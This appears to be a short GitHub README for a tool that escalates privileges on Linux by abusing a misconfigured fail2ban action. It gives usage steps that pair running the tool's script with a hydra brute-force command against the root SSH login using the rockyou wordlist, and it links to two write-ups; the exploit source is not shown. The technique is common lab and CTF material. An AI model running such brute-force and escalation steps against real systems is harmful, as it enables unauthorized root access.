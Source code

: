
# Privilege Escalation via fail2ban
In Linux, fail2ban is mostly used to protect the SSH service. 
If the daemon detects several unsuccessful ssh login attempts, it executes a command that blocks the IP address.
So some misconfigurations can lead to privilege escalation.

![alt text](https://github.com/rvizx/fail2ban/img.png?raw=true)

# Usage
@victim
```
python3 fail2ban.py
```


@attacker
```
hydra <ip-addr> -l root -P /usr/share/wordlist/rockyou.txt ssh
```

# Notes
https://youssef-ichioui.medium.com/abusing-fail2ban-misconfiguration-to-escalate-privileges-on-linux-826ad0cdafb7
https://grumpygeekwrites.wordpress.com/2021/01/29/privilege-escalation-via-fail2ban/

